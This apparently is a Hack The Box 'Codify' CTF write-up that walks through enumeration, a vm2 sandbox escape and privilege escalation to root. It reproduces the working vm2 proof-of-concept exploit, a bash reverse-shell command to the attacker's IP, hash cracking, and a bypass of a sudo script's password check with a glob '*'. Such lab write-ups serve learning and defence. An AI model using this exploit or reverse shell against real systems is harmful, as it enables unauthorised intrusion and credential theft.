

# Summary

## Nmap
As always I start out with an nmap scan, `-sC` to run default enumeration scripts, `-sV` to enumerate version, and `-v` to list open port as they're found
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Codify
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
I find 3 ports open, SSH on port 22, HTTP on port 80, and the Node.js framework on port 3000. Port 80 first comes back with the line `Did not follow redirect to http://codify.htb`, so I add `codify.htb` to my `/etc/hosts` file and rerun nmap on port 80, as certain scripts will not run properly otherwise.
### HTTP on port 80
The site holds a sandbox to test out Node.js code online. The site states that the code is run in a sandbox to prevent access to the underlying system. Makes sense. on `/limitations` there's a pretty restrictive list of specifically banned and allowed modules.

On the `/about` page is a line that states *"The [vm2](https://github.com/patriksimek/vm2/releases/tag/3.9.16) library is a widely used and trusted tool for sandboxing JavaScript"* The hyperlink in vm2 points to version 3.9.16. I search for "vm2 3.9.16" exploit to see if there are any public exploits in the sites sandboxing technology. And what do you know! There sure is. [CVE-2023-30574](https://nvd.nist.gov/vuln/detail/CVE-2023-30547) is specifically for sandbox escape in the vm2 library up to version 3.9.16. We're in luck.

I find [this proof of concept](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244) from the original researcher that allows me to get code execution on the site. I can paste in the code, and add my commands to the section after `execSync`, and get code execution in the underlying system.
```javascript
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('<COMMAND>');
}
`

console.log(vm.run(code));
```
I use the RCE to send a bash reverse shell
```node
const {VM} = require("vm2");
const vm = new VM();
<...SNIP...>
().mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/<MY IP/<PORT> 0>&1"');
}
<...SNIP...>
```
I set up a netcat listener and catch the reverse shell
```bash
nc -lvnp 9001
```
I use the [python pty trick](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell) to improve my shell.
```bash
┌──(kali㉿Kali)──[22:44:18]──[~/htb/Machines/Codify]
└─$ nc -lvnp 9001
<...SNIP...>
svc@codify:~$ python3 -c 'import pty;pty.spawn("bash")'
python3 -c 'import pty;pty.spawn("bash")'
svc@codify:~$ ^Z
zsh: suspended  nc -lvnp 9001
                                                                                                                              
┌──(kali㉿Kali)──[22:46:58]──[~/htb/Machines/Codify]
└─$ stty -a              
speed 38400 baud; rows 69; columns 126; line = 0;
<...SNIP...>
                                                                                                                              
┌──(kali㉿Kali)──[22:47:01]──[~/htb/Machines/Codify]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 9001

svc@codify:~$ stty rows 69 columns 126 && export TERM=xterm

```
Once on the box, I find a `tickets.db` file in `/var/www/contact`. I run `strings` on it, and in the output I see what looks quite like a password hash for the user `joshua`. `Joshua`  is also the user on the box. Hopefully I can crack the hash and hopefully joshua reused their password for their user account
```bash
svc@codify:/var/www/contact$ strings tickets.db 
<...SNIP...>
indexsqlite_autoindex_users_1users
joshua$2a$12$<REDACTED>
joshua
<...SNIP...>
```
I copy the hash starting from the first `$` and use `hashid` to identify the hash type and hashcat mode, which comes back as bcrypt and mode 3200
```bash
┌──(clayton㉿Nucleus)──[22:53:00]──[~/hash]
└─$ hashid -m '<REDACTED>'               
Analyzing '<REDACTED'
[+] Blowfish(OpenBSD) [Hashcat Mode: 3200]
[+] Woltlab Burning Board 4.x 
[+] bcrypt [Hashcat Mode: 3200]
```
The hash cracks quickly in hashcat. Always remember to crack hashes on your host system, not the VM, as that will speed up the process considerably.
## Root Shell
With `Joshua's` password in hand, I switch over to his account and run `sudo -l`.
```bash
svc@codify:/var/www/contact$ su joshua
Password: 
joshua@codify:/var/www/contact$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```
Joshua can use `sudo` to run `/opt/scripts/mysql-backup.sh`
```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```
The password check in this script can be bypassed by passing `*` as the password. This is because in bash, when you use `==` inside `[[ ]]`, bash performs pattern matching where the string on the right side (our user input) is considered a pattern. This means `*` is considered a glob pattern. The `*` in glob patterns matches zero or more characters. So when a user simply enters `*` as the password, it matches any string of any length on the left handed side, including the actual password stored in `$DB_PASS`. To fix this vulnerability, the script should use `=` instead of `==` for string comparison. That way, the user input is treated as literal string, rather than a pattern.

After this, the script takes the actual password from `/root/.creds` and passes it to the `mysql` command to connect to the database. With a tool like [pspy]() I should actually be able to see the mysql command get passed, and see the true password that get's used. That will buy me access to the MySQL database, and if I'm lucky, the password could be reused for the root account.

I download pspy and host it in a python webserver on my box, I then `wget` from the victim, give it execute permissions, and run it with a short interval of 10 milliseconds, that means it will check running processes every 10ms. Pspy normally runs with an interval on 100ms, but I just want to make sure I catch it, as the command will probably go b very quickly.
```bash
# On my Attack box, download pspy and host it on simple http server
┌──(kali㉿Kali)──[23:11:13]──[~/htb/Machines/Codify/www]
└─$ wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64 -O pspy
<...SNIP...>
pspy                            100%[======================================================>]   2.96M  10.3MB/s    in 0.3s    
<...SNIP...>
                                                                                                                               
┌──(kali㉿Kali)──[23:11:19]──[~/htb/Machines/Codify/www]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

# On victim box, download pspy from my attack box, give execute permissions, and run it
joshua@codify:/dev/shm$ wget 10.10.15.34/pspy
<...SNIP...>
pspy                            100%[=====================================================>]   
<...SNIP...>
joshua@codify:/dev/shm$ chmod +x pspy
joshua@codify:/dev/shm$ ./pspy -i 10
```
Once pspy is running, I log in to SSH again from another terminal, run `sudo /opt/scripts/mysql-backup.sh`. I see the password get used on the first try, but if you don't, just try running the script more.



I test out this password for the root user and sure enough! I get a shell as root and am able to read the root flag.
```bash
root@codify:/home/joshua# cat /root/root.txt
d16e657-------------------------
```